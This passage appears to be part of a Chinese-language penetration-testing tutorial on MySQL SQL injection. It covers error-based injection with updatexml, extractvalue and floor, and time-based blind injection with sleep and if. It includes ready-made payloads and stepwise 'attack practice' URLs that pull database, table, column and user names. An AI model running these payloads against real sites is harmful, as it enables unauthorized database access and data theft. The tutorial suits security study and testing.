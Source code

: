 
## 3、报错注入

在 MYSQL 中使用一些指定的函数来制造报错，后台没有屏蔽数据库报错信息，在语法发生错 误时会输出在前端，从而从报错信息中获取设定的信息。select/insert/update/delete 都 可以使用报错来获取信息。常用的爆错函数 updatexml()，extractvalue()，floor() ,exp()

**payload语法：**

    updatexml(xml_document,Xpathstring,new_value) 
           payload1：updatexml(1,concat(0x7e,(select database()),0x7e),1)
           payload2：extractvalue(1,concat(0x7e,(select database())))
           payload3：(select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a)# 
    
        

**攻击实战：**

    A:注入点探测及类型 a’制作报错,字符型 
    B：利用函数 updatexml()获取数据库名 http://xxxxx?username=a' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
    C：利用函数 updatexml()获取表名 http://xxxxxxx?username=a' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='test'),0x7e),1)--+
    D：利用函数 updatexml()获取字段名 http://xxxxxxx?username=a' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='test' and table_name='users'),0x7e),1)--+ 
    E：利用函数 updatexml()获取值 http://xxxxxxx?username=a' and updatexml(1,concat(0x7e,(select username from test.users limit 0,1),0x7e),1)--+ 
    
        

## 4、时间盲注

代码存在 sql 注入漏洞，然而页面既不会回显数据，也不会回显错误信息，语句执行后也 不提示真假，我们不能通过页面的内容来判断。这里我们可以通过构造语句，通过页面响应的 时长，来判断信息，这既是时间盲注。原理：利用 sleep()或 benchmark()等函数让 mysql 执行时间变长经常与 if(expr1,expr2,expr3) 语句结合使用，通过页面的响应时间来判断条件是否正确。if(expr1,expr2,expr3)含义是如果 expr1 是 True,则返回 expr2,否则返回 expr3。

**特点：**-
通过时间回显的延迟作为判断 payload=1’ and sleep(5)–+ 有延迟则考虑时间盲注-
利用 sleep()或 benchmark()函数延长 mysql 的执行时间-
与 if()搭配使用-
常用函数：-
• left(m,n) --从左向右截取字符串 m 返回其前 n 位-
• substr(m,1,1) --取字符串 m 的左边第一位起，1 字长的字符串-
• ascii(m) --返回字符 m 的 ASCII 码-
• base64(m)—返回字符 m 的 base64 编码 • if(str1,str2,str3)–如果 str1 正确就执行 str2，否则执行 str3-
• sleep(m)–使程序暂停 m 秒-
• length(m) --返回字符串 m 的长度-
• count(column\_name) --返回指定列的值的数目-
**payload:if(expr1,expr2,expr3) 语义解析 ：**-
对 expr1 进行布尔判断，如果为真，则执行 expr2,如果为假，则执行 expr3 常用 payload： If(length(database())>1,sleep(5),1) 如果数据库名字符长度大于 1 为真，mysql 休眠 5 秒，如果为假则查询 1。而查询 1 的结果，大约只有几十毫秒，根据 Burp Suite 中页面的响应 时间，可以判断条件是否正确。-
**攻击实战：**

    判断数据库名的长度
     http://xxxxxx?id=1 and if(length(database())>=6,sleep(5),1) 
    爆库名
     http://xxxxxxx?id=1 and if(substr(database(),1,1)='a',sleep(5),1)   数据库名为 test 
    爆表名
     http://xxxxxxx?id=1 and if(substr((select table_name from information_schema.tables where table_schema='test' limit 0,1),1,1)='a',sleep(5),1)  表名 
    爆字段
      http://xxxxxxx?id=1 and if(substr((select column_name from information_schema.columns where table_schema='test' and table_name='users' limit 0,1),1,1)='a',sleep(5),1)  
    爆数据 
     http://xxxxxxxxxx?id=1 and if(substr(select username from test.users limit 0,1),1,1)='a',sleep(5),1) 由于数据库名的范围一般在 a~z,0~9，特殊字符，大小写等
    